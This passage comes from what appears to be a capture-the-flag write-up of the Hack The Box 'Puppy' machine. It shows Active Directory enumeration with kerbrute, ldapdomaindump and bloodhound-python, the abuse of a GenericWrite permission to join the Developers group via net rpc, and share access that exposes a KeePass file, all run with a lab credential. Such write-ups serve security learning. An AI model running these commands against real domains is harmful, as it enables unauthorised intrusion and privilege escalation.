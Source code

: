 - I filtered the valid users with `kerbrute`:
	
	```python
	/opt/kerbrute userenum -d PUPPY.HTB  --dc 10.10.11.70  /home/rufo/usernames 
	```
	
	<img width="643" height="327" alt="image" src="https://github.com/user-attachments/assets/f1bfdc72-1164-4e7f-880b-327e27a8d8e9" />
	
- Then I used `ldapdomaindump` to gather more structured information about users and groups:

	```python
	ldapdomaindump -u 'PUPPY.HTB\levi.james' -p 'KingofAkron2025!' 10.10.11.70 
	```

- The user `adam.silver` stood out, as the account was disabled:

  <img width="1912" height="465" alt="image" src="https://github.com/user-attachments/assets/150faa92-d468-4d52-844c-0a60abfeca24" />

- Members of the `RMU` group included `steph.cooper` and `adam.silver`, suggesting they might be interesting targets:

  <img width="758" height="128" alt="image" src="https://github.com/user-attachments/assets/23373ca6-f987-4bc0-bc25-51f611eddef3" />

- Unusual groups like `Developers` and `Senior Devs` were also present:

	<img width="687" height="257" alt="image" src="https://github.com/user-attachments/assets/1ca4c215-1084-44fa-b38d-d8b39d97901d" />

## Privilege Enumeration & Abuse

- Using `bloodhound-python`, I collected data to analyze potential privilege escalation paths:

	```python
	bloodhound-python -c all -u 'levi.james' -p 'KingofAkron2025!' -ns 10.10.11.70 -d PUPPY.HTB
	```

- The user `levi.james` was a member of the `HR` group, which had `GenericWrite` permissions over the `Developers` group. This allowed us to add ourselves to it:

	```python
	net rpc group addmem "DEVELOPERS" "levi.james" -U "PUPPY.HTB"/"levi.james"%'KingofAkron2025!' -S "dc.PUPPY.HTB"
	net rpc group members "DEVELOPERS" -U "PUPPY.HTB"/"levi.james"%'KingofAkron2025!' -S "dc.PUPPY.HTB"
	```
	<img width="1635" height="266" alt="image" src="https://github.com/user-attachments/assets/c8e05ef1-2be6-475d-97e8-94a7422d3d74" />

- Now part of the `Developers` group, we had read access to the previously restricted `DEV` share:

	```python
	netexec smb 10.10.11.70 -u usernames -p passwords --shares
	```

	<img width="939" height="260" alt="image" src="https://github.com/user-attachments/assets/5a12b4b2-72db-421f-a4dc-16ac310a4dfe" />

- Inside, we found a KeePass database file: `recovery.kdbx`. To open it, we needed the master password:
